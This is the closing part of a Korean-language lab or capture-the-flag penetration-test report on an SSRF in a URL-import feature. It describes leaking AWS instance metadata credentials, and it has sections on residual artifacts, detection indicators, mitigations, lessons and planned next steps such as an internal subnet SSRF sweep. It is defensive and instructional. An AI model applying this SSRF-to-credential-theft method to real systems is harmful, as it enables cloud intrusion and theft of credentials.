- report_id 1~1693 샘플링(68건) — 전부 404, 현재 살아있는 최소 id(1694) 이전 데이터 없음.
- `.git/*`, `.env`, `docker-compose.yml` 등 정적 자원 20종 탐색 — 전부 404.
- 6개 tenant_id 접미사 숫자를 포트/IP로 디코딩하려는 시도(외부 직접 연결 6건 + SSRF 내부 12건, RDAP 대조 5건) — 전부 반증되었고, `notes/evidence-index.md`의 2026-08-25 17:55 정정에 따르면 이 숫자 자체가 이미 알고 있던 billing 데이터를 재포장한 것이라 디코딩 시도 전제가 무효였다.
- "manifest" 관련 REST 경로 전수 탐색(§10) — 전부 404, 숨겨진 상태 전이도 없음.
- `notes/PROGRESS_SUMMARY_20260826.md`가 언급하는 "리포트 462건/44.8MB" 주장은 §7-2 자가점검 게이트 적용 시 실제 평탄화 결과(고유 리포트 35건, id 1694-1729, `artifacts/E05_flattened_reports.json`)와 맞지 않아 `notes/evidence-index.md`에서 반증으로 판정되었다 — 본 문서도 이 반증을 따른다.

## 13. 실습 중 생성한 흔적과 정리

| 대상 경로 | 목적 | 정리 상태 |
|---|---|---|
| 리포트 id 1730 등 SSRF 테스트용 report(대상 DB) | 상태 머신/SSRF 검증 | `[권장 정리]` — 삭제 API 자체가 버그(§11 #4)로 동작하지 않아 조사자가 직접 지우지 못했다. 랩 리셋 시 소거 여부 `[미확인]`. |
| id 1774("manifest-test") 등 조사용 report | manifest 후보 탐색 | 동일 사유로 `[권장 정리]` |
| 로컬(WSL/공격자 측) `scripts/*.sh`, `loot/*` | 스캔/자격증명 보관 | 로컬 리포지토리에 보존, 대상에는 영향 없음 |

대상 시스템 계정/파일/스케줄 작업 등은 생성하지 않았다(획득한 권한이 애플리케이션 API 레벨과 읽기 전용 AWS API 호출로 한정됨).

## 14. 탐지 및 대응

- **근본 원인**: `source_url`/`method`/`headers`를 클라이언트가 자유롭게 지정하는 URL 임포트 기능에 목적지 allowlist/사설 대역(RFC1918, 169.254.0.0/16, IPv6 매핑 주소 포함) 차단이 없다.
- **단기 완화**: `169.254.169.254` 및 사설 대역, 루프백, IPv6 매핑 표현을 `source_url` 검증 단계에서 차단한다. IMDSv1을 완전히 비활성화해도 SSRF가 헤더/메서드를 대신 실행할 수 있으므로 근본 해결은 아니지만 공격 난이도를 높인다.
- **근본 수정**: 목적지 URL을 allowlist 기반으로 검증하고, 내부 fetch 워커에는 IMDS 및 사설 대역으로의 아웃바운드를 네트워크 계층(보안 그룹/iptables)에서 차단한다. IAM 역할은 이미 최소 권한으로 잘 구성되어 있어(§8) 이 부분은 모범 사례로 유지한다. `DELETE /api/reports/{id}`의 500/미삭제 버그(§11 #4)를 별도로 수정한다.
- **탐지 가능한 흔적**: `/api/reports/import`의 `source_url`에 `169.254.169.254`, `0.0.0.0`, RFC1918 대역, IPv6 매핑 리터럴이 포함된 요청, 비정상적으로 많은 `transition` 호출 반복, IMDS 로그(활성화되어 있다면 `169.254.169.254` 접근 로그) 상 인스턴스 자체가 아닌 애플리케이션 프로세스에서 IMDS를 조회하는 패턴.

## 15. 핵심 학습 포인트

1. URL 임포트/웹훅류 기능에서 `method`와 `headers`까지 클라이언트가 지정할 수 있으면, IMDSv2처럼 "토큰 발급 단계가 있어 안전하다"고 여겨지는 메커니즘도 SSRF 한 번으로 전부 우회된다.
2. IAM 역할의 명시적 거부(explicit deny) 기반 최소 권한 설계는 SSRF로 자격증명이 탈취되더라도 실질적 피해 반경을 `sts:GetCallerIdentity` 수준으로 좁힐 수 있다 — 이번 챌린지에서 실제로 추가 피벗을 막은 유일한 방어선이었다.
3. 힌트성 텍스트("needs the manifest... human-owned")를 애플리케이션 내부 탐색만으로 풀려는 시도는 기술적 소진(엔드포인트 전수 탐색, 상태 머신 전수 탐색)으로 이어질 수 있다 — 문구 자체가 "이 앱 밖에서 확인하라"는 신호일 가능성을 더 일찍 진지하게 고려했어야 한다.
4. 여러 시점에 작성된 작업 노트는 서로 상충하는 결론(예: 힌트의 출처, 리포트 건수)을 담을 수 있으므로, 최종 정리 시점에는 정정 이력이 남은 가장 최신 자료를 원본 증적과 함께 우선해야 한다.
5. 진행 중인 조사에서도 행동 타임라인 로그(action-log)를 매 단계 갱신하지 않으면, 나중에 통합 문서를 쓸 때 "언제, 어떤 순서로" 자격증명을 갱신했는지 교차검증할 수 없다.

## 16. 참고 자료

- AWS IMDSv2 공식 문서 — 세션 토큰 기반 메타데이터 접근 방식(기술 검증용, 이번 세션에서는 대상에서 직접 재현했으며 별도 URL은 인용하지 않음 — `[외부 검증 필요 — 공식 문서 URL 미확인]`)

## 부록 A. 사용한 스크립트

- `scripts/ssrf_probe.sh`: backend:8000 하위 19개 경로에 대한 manifest 후보 SSRF 탐색
- `scripts/ssrf_probe2.sh`: (내용 미확인 — 이번 감사에서 별도로 열어보지 않음, 존재만 확인)
- `scripts/vpc_sweep.sh`: 10.66.30.0/24 254개 호스트 대상 포트 8000 SSRF 스윕(완료 여부 `[미확인]`, §9 Part A 참고)

## 부록 B. 원본 스캔 및 응답

`http/E01_openapi.json`~`http/E05_report_1730.json`, `artifacts/E05_flattened_reports.json`, `loot/E15_imds_token.txt`~`loot/E29_new_iam_credentials.json` 참고.

## 부록 C. 증적 목록

`notes/evidence-index.md`(원본, 정정 2건 포함) 참고. 카테고리별 파생 뷰(`notes/evidence-by-category.md`)는 아직 생성되지 않았다 — `[미확인 — 미생성]`.

---

## 다음 시도할 것 / 막힌 지점

**막힌 지점**: openapi.json의 `/billing/tenants` 설명이 명시하는 "manifest"(Stage 2/3 진입 조건)의 실체와 제출 방식을 찾지 못했다. 애플리케이션 내부(REST 엔드포인트 전수 탐색, 상태 머신 전수 탐색, SSRF를 통한 backend:8000/VPC 내부 서비스 탐색, AWS IAM 권한 열거)에서는 기술적으로 시도할 수 있는 것을 대부분 소진한 상태다. 획득한 IAM 역할은 명시적 최소 권한으로 설계되어 있어 AWS 쪽에서 추가 정보를 끌어낼 경로가 보이지 않는다.

**다음 시도할 것**:
1. openapi.json의 "Derivation clues are human-owned" 문구를 문자 그대로 받아들여, 챌린지 설명서·브리핑 자료·팀/스태프 공지 등 **애플리케이션 밖의 자료**를 먼저 확인한다(이 폴더에는 해당 자료가 없다).
2. `scripts/vpc_sweep.sh`의 10.66.30.0/24 스윕을 처음부터 완주하고 원본 로그를 `logs/` 또는 `notes/`에 남긴다 — 이전 실행은 완료 여부조차 재검증할 수 없는 상태였다(§9 Part A).
3. id 1720("snojc-manifest") 리포트의 원본 HTTP 응답을 다시 조회해(가능하다면) 실제 존재 여부와 작성자 단서(예: 다른 필드, 헤더)를 확인한다 — 이미 삭제되었다면 `notes/VERIFIED_EVIDENCE_ONLY.md`의 서술을 넘어서는 추가 증거는 얻기 어렵다.
4. `logs/action-log.md`를 E06 이후 행동까지 소급 보완하거나, 최소한 앞으로의 모든 행동은 실시간으로 기록해 자격증명 갱신 순서(E16→E29 등)를 교차검증 가능하게 만든다.
5. 다른 팀(`lab-team-a/b/d/e` 등, IAM assume-role 경로 기준 추정)과의 접점이 있는지, 혹은 랩 운영자에게 Stage 1의 존재 여부와 전체 스테이지 수를 직접 확인한다 — 현재 "Stage 0"과 "Stage 2/3"만 문구로 확인되고 Stage 1/4+는 `[미확인]`이다.
6. §10-1에서 병합한 2번째 세션도 `cjons-*` 네이밍으로 동일하게 막혔다 — REST 경로 추측이 아닌 다른 접근(예: 다른 팀의 성공한 리포트 내용을 더 넓게 수색, 또는 애플리케이션 밖 자료 확보)이 필요하다는 것이 두 세션 모두에서 확인된 결론이다.
